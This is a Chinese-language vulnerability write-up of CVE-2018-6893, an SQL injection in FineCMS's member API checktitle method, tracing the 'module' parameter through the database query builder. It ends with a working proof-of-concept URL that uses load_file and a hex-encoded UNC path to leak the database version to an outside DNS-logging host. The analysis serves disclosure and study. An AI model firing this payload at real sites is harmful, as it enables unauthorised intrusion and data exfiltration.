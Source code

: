 title: 'CVE-2018-6893:Finecms SQL Injection'
date: 2018-02-13 12:05:58
tags: ['PHP安全相关']

*本文首发于先知社区：[点击链接]: https://xianzhi.aliyun.com/forum/topic/2050*

漏洞位置在：
finecms/dayrui/controllers/member/Api.php 590行左右

```php
public function checktitle() {
    $id = (int)$this->input->get('id');
    $title = $this->input->get('title', TRUE);
    $module = $this->input->get('module');
    (!$title || !$module) && exit('');
    $num = $this->db->where('id<>', $id)->where('title', $title)->count_all_results(SITE_ID.'_'.$module);
    $num ? exit(fc_lang('<font color=red>'.fc_lang('重复').'</font>')) : exit('');
}
```

可以看到方法count_all_results()使用了$module,count_all_results()方法如下：

```php
public function count_all_results($table = '', $reset = TRUE)
    {
        if ($table !== '')
        {
            $this->_track_aliases($table);
            $this->from($table);
        }

        // ORDER BY usage is often problematic here (most notably
        // on Microsoft SQL Server) and ultimately unnecessary
        // for selecting COUNT(*) ...
        if ( ! empty($this->qb_orderby))
        {
            $orderby = $this->qb_orderby;
            $this->qb_orderby = NULL;
        }

        $result = ($this->qb_distinct === TRUE OR ! empty($this->qb_groupby) OR ! empty($this->qb_cache_groupby) OR $this->qb_limit OR $this->qb_offset)
            ? $this->query($this->_count_string.$this->protect_identifiers('numrows')."\nFROM (\n".$this->_compile_select()."\n) CI_count_all_results")
            : $this->query($this->_compile_select($this->_count_string.$this->protect_identifiers('numrows')));

        if ($reset === TRUE)
        {
            $this->_reset_select();
        }
        // If we've previously reset the qb_orderby values, get them back
        elseif ( ! isset($this->qb_orderby))
        {
            $this->qb_orderby = $orderby;
        }

        if ($result->num_rows() === 0)
        {
            return 0;
        }

        $row = $result->row();
        return (int) $row->numrows;
    }
```
    
可以看到对传入的table参数进行了是否为空校验以及经过两个函数的处理，再跟进_track_aliases函数继续进行分析：

```php
protected function _track_aliases($table)
    {
        if (is_array($table))
        {
            foreach ($table as $t)
            {
                $this->_track_aliases($t);
            }
            return;
        }

        // Does the string contain a comma?  If so, we need to separate
        // the string into discreet statements
        if (strpos($table, ',') !== FALSE)
        {
            return $this->_track_aliases(explode(',', $table));
        }

        // if a table alias is used we can recognize it by a space
        if (strpos($table, ' ') !== FALSE)
        {
            // if the alias is written with the AS keyword, remove it
            $table = preg_replace('/\s+AS\s+/i', ' ', $table);

            // Grab the alias
            $table = trim(strrchr($table, ' '));

            // Store the alias, if it doesn't already exist
            if ( ! in_array($table, $this->qb_aliased_tables, TRUE))
            {
                $this->qb_aliased_tables[] = $table;
                if ($this->qb_caching === TRUE && ! in_array($table, $this->qb_cache_aliased_tables, TRUE))
                {
                    $this->qb_cache_aliased_tables[] = $table;
                    $this->qb_cache_exists[] = 'aliased_tables';
                }
            }
        }
    }
```
可以看到table在这个函数中经过了较多过滤，继续看下一个函数from：

```php

public function from($from)
    {
        foreach ((array) $from as $val)
        {
            if (strpos($val, ',') !== FALSE)
            {
                foreach (explode(',', $val) as $v)
                {
                    $v = trim($v);
                    $this->_track_aliases($v);
                    $this->qb_from[] = $v = $this->protect_identifiers($v, TRUE, NULL, FALSE);
                    if ($this->qb_caching === TRUE)
                    {
                        $this->qb_cache_from[] = $v;
                        $this->qb_cache_exists[] = 'from';
                    }
                }
            }
            else
            {
                $val = trim($val);
                // Extract any aliases that might exist. We use this information
                // in the protect_identifiers to know whether to add a table prefix
                $this->_track_aliases($val);
                $this->qb_from[] = $val = $this->protect_identifiers($val, TRUE, NULL, FALSE);
                if ($this->qb_caching === TRUE)
                {
                    $this->qb_cache_from[] = $val;
                    $this->qb_cache_exists[] = 'from';
                }
            }
        }
        return $this;
    }
```
可以看到经过这两个函数以及finecms本身get方法的过滤，能用的符号不多了，但是括号以及逗号都还能使用。

在测试的时候，如果传入的参数比如：module=1，则会爆表不存在的错误，并且可以看到查询的语句，而module参数位于from位置，也就是查询的表的位置，于是使用逗号分割查询的表，并使用dns外带数据，payload形如：

> http://localhost/index.php?s=member&c=api&m=checktitle&id=13&title=123&module=news,(select load_file(concat(0x5c5c5c5c,version(),0x2e6d7973716c2e61687a6935672e636579652e696f5c5c616263)))) as total

![](/img/3.png)
